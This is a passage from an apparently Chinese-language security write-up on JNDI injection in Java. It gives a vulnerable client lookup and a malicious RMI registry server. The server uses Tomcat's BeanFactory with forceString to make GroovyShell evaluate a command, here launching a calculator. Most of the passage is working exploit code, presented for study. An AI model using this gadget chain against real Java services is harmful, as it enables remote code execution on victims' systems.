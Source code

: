   
client端代码:  

```
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;


publicclassClient {
    publicstaticvoidmain(String[] args) throws NamingException {
            String uri = &#34;rmi://127.0.0.1:1099/exp&#34;;
            Context ctx = new InitialContext();
            ctx.lookup(uri);
    }
}


```

  
3.1.2 依赖groovy任意版本的类  
  
以版本1.5为例，添加pom.xml相关依赖。  

```
   <dependency>
            <groupId>org.codehaus.groovy</groupId>
            <artifactId>groovy-all</artifactId>
            <version>1.5.0</version>
        </dependency>
```

  
服务端代码  

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;


import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


publicclassExecByGroovy{
    publicstaticvoidmain(String[] args)throws NamingException, RemoteException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef(&#34;groovy.lang.GroovyShell&#34;, null, &#34;&#34;, &#34;&#34;, true,&#34;org.apache.naming.factory.BeanFactory&#34;,null);
        ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;x=evaluate&#34;));
        String script = String.format(&#34;'%s'.execute()&#34;, &#34;open -a calculator&#34;); //commandGenerator.getBase64CommandTpl());
        ref.add(new StringRefAddr(&#34;x&#34;,script));
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(ref);
        registry.bind(&#34;exp&#34;, refObjWrapper);
        System.out.println(&#34;Creating evil RMI registry on port 1099&#34;);
    }
}
```
